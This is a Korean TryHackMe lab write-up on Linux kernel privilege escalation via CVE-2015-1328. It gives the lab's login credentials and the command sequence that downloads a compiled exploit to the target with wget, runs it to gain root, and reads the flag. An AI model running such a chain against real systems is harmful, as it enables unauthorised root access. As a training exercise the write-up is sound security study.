 ## Privilege Escalation: Kernel Exploits
> TryHackMe에 커널 익스플로잇을 이용하여 권한 상승에 관한 실습을 했습니다.

---

### 1. 실습 개요
- **타겟 머신 IP**: 10.10.42.60
- **공격 머신**: Kali Linux
- **사용 계정**: `karen:Password1`
- **커널 버전**: `Linux 3.13.0-24-generic`
- **실습 일자**: 2025-04-18

---

### 2. 실습 과정

#### 2.1 **SSH 접속**
- 타겟 머신에 SSH로 접근: karen 계정과 주어진 비밀번호로 로그인 하였다.

```bash
ssh karen@10.10.42.60
# Password1 입력 후 로그인
```

![SSH 연결 및 로그인](./screenshots/ssh_connect.png)

---

#### 2.2 **커널 버전 확인**

- 커널 버전 확인: uname -a 명령어로 커널 버전을 확인하고, 3.13.0-24-generic 버전이라는 것을 확인하였다.

```bash
uname -a
```
![uname -a 출력](./screenshots/uname.png)

- 커널 버전이 CVE-2015-1328에 취약하다는 사실을 구글링을 통해 확인하였다.

- Exploit-DB에서 해당 취약점에 대한 37292.c 소스코드를 다운로드하였다.
- 다운로드 링크 :[Exploit-DB - CVE-2015-1328](https://www.exploit-db.com/exploits/37292)

---

#### 2.3 **Kali에서 SSH 서버 시작** 

```bash
systemctl start ssh
```
![SSH 서비스 시작](./screenshots/start_ssh.png)

---
#### 2.4 **Exploit 다운로드 및 전송 (Windows → Kali)**  
- Windows → Kali로 소스 전송: Windows PowerShell의 `scp`를 통해 Kali로 소스 파일을 전송하였다. (실제 IP는 모자이크)

```bash powershell
scp D:/exploit_file/37292.c root@<MyRoot-ip>:/root
```
![SCP 전송](./screenshots/window_scp.png)

---
#### 2.5 **Exploit 정적 컴파일**  
- `gcc 37292.c -o exploit -static` 명령어를 사용하여 정적으로 컴파일 하였다.

```bash
gcc 37292.c -o exploit -static
```
![정적 컴파일](./screenshots/compile.png)

---
#### 2.6 **타겟 머신으로 Exploit 전송**  
- Kali에서 `python3 -m http.server 8000`으로 HTTP 서버를 열고, 타겟 머신에서 `wget`으로 exploit을 /tmp에 다운로드하였다.

```bash
python3 -m http.server 8000
wget http://<kali-ip>:8000/exploit -O /tmp/exploit
```
![wget 전송](./screenshots/http_server_wget.png)

---
#### 2.7 **실행 및 루트 획득** 

- `chmod +x exploit` 후 `./exploit`을 실행하여 루트 권한을 획득하였다. 후에 `find / -name flag1.txt`로 플래그 파일 경로를 찾고, `cat /home/matt/flag1.txt`로 내용 확인하였다.

```bash
chmod +x exploit
./exploit
id
find / -name flag1.txt
cat /home/matt/flag1.txt
```
![익스플로잇 실행 및 플래그 획득](./screenshots/exploit_flag.png)

---
### 3. 최종 결과
- 루트 쉘 획득 성공 (`uid=0(root)`)
- 플래그 위치: `/home/matt/flag1.txt`
- 플래그 내용: `THM-28392872729920`

---
### 4. 배운 점
> ✅ 이번 커널 익스플로잇 실습을 통해 단순한 버전 정보 수집(uname -a)만으로도 실제 취약점을 찾아 루트 권한까지 상승시킬 수 있다는 점을 체감할 수 있었습니다. 또한 정적 컴파일 및 원격 전송, 실행까지의 전체 흐름을 직접 다뤄보며 실전 감각을 키울 수 있었습니다. 시스템의 커널 보안 업데이트가 얼마나 중요한지 다시 한 번 느끼게 해주는 실습이었습니다.

